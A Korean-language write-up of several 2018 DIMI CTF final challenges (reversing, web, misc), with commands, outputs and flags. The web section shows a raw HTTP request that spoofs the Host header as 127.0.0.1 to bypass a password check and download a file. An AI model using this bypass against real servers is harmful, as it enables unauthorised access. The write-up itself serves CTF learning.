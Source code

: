 # 2018 DIMI CTF (KDMHS CTF) Final

원래 안쓰려고 했는데 [@JunhoYeo](https://github.com/JunhoYeo)형이 기대된다고 하시길래.. 대충 끄적여 봅니당.

포넙은 못 건들었어요 ㅠ 죄송합니당..

## Reversing
### Waiting

열어보지도 않고 그냥 .NET Reflector로 깠다.

![](img/waiting.png)

소켓 통신을 하는것 같아서 저 주소를 가지고 nc로 열어봤다.

그냥 1 입력하니까 안된다고 해서 999 입력했더니 플래그가 나왔다!

```
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.11 7788
1
Wait you send wrong day!
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.11 7788
999
The Flag is dimi{the_time_is_running_out}
```


## Web
### DIMI STORAGE

소스 나오기 전까지는 건들지도 않다가 소스 나온다니까 소스 분석하니 다음 코드가 있었다.

```php
if($_GET['password'] != $password) {
  if($_SERVER['HTTP_HOST'] != "127.0.0.1") {
    echo "FAIL - Password Error";
    exit(-1);
  }
}
```

저 HTTP_HOST를 조작할 수 있지 않을까 생각해서 구글링을 했다.

`Host` 헤더를 바꾸면 되는것 같다! cURL은 사용할 줄 몰라서 telnet으로 대충 했다.

```
 D3V0NNURI > ~/ctf/2018-DIMI-CTF-BONSUN > nc 121.170.91.14 80
GET /4e818133cd4413425429613b06a55453/download.php?id=00000000000000000000000000000000 HTTP/1.1
Host: 127.0.0.1 ⏎
⏎

HTTP/1.1 200 OK
Server: Apache/2.4.18 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="00000000000000000000000000000000"
Content-Length: 19
Content-Type: application/octet-stream

dimi{iamlocalhost}
```

```
FLAG: dimi{iamlocalhost}
```

## MISC
### guess_returns

게싱이 하나 더 나와따~

생각나는거 유튜브, 픽시브, 임거 다 들어가 보았지만 안되었다!

음.. 비트면 뭐가 있지? 하다가 `goo.gl` 삘받아서 해도 안되서 비슷한거 `bit.ly` 하니까 잘 되었다!

플래그 모르고 있었는데 [@w3bn00b](https://github.com/w3bn00b)님이 PR 해주셨다! 감사의 말씀을 올리고 싶다. 

```
FLAG: dimi{Th1s_1s_3xp3r1enc3_b4sed_gu3ss1ng_1sn't_1t?}
```

### MAAATH

pwntools로 eval해서 풀었다.

완전 대충 풀었다는거 눈에 보이죠.. ㅠㅠ

[math.py](misc/math.py)

```
FLAG: dimi{Yeah, you are good at math!:)}
```

### image

처음에 LSB만 건드리다가.. 힌트도 나오고 누가 먼저 풀어서 이거 풀수 있나 보다 해서 빡집중해따..

준호형이 저번에 [머 올린게](http://nogadaworks.tistory.com/93) 생각나서 각 픽셀을 rgb로 이어서 한 파일로 이었다. Python3용 PIL Wrapper인 Pillow를 이용해서 풀었다.

처음에 width와 height를 바꿔 풀어서.. 애먹어써요 ㅠㅠ

[이어주는 코드](misc/image.py)

이어주게되면 ELF 파일이 주어진다.

실행시키면 플래그가 바로 나온다(?)

```
 D3V0NNURI > /mnt/c/devonnuri/CTF/DIMI CTF BONSUN 2018 > ./imageResult
dimi{ELF_!N_1M4G3}
```

```
FLAG: dimi{ELF_!N_1M4G3}
```

